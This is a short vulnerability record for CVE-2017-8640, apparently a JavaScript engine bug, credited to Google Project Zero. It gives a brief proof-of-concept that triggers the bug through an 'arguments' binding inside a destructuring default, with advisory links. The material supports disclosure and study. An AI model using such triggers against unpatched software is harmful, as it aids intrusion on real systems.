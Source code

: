 # CVE-2017-8640

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    ({a = () => {
        let arguments;
    }} = 1);

    arguments.x;
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8640)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1297)
